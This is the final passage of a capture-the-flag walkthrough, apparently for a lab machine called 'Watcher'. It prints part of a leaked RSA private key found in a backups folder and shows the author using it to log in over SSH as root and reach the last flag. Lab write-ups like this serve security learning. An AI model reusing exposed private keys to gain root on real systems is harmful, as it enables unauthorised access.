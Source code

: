```terminal
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/redactedredactedredactedredacted+++w+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRredactedredacted==
-----END RSA PRIVATE KEY-----
will@watcher:/opt/backups$
```
 When we decode the file, we see that it is a SSH private key, let's copy it to our machine, give it the right permissions, and try to connect with it.

 ```terminal
 ┌──(sirius㉿kali)-[~/CTF/THM/watcher]
└─$ chmod 400 id_rsa
 ┌──(sirius㉿kali)-[~/CTF/THM/watcher]
└─$ ssh -i id_rsa root@10.10.10.10                                                                                                                    255 ⨯
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 13 12:28:44 UTC 2022

  System load:  0.0                Processes:             124
  Usage of /:   22.5% of 18.57GB   Users logged in:       0
  Memory usage: 37%                IP address for eth0:   10.10.18.205
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1


33 packages can be updated.
0 updates are security updates.


Last login: Thu Dec  3 03:25:38 2020
root@watcher:~# ls
flag_7.txt
root@watcher:~#
 ```

 Great, we are root now. This was an amazing machine, hope you have enjoyed it as much as i did, and see you in the next hack.
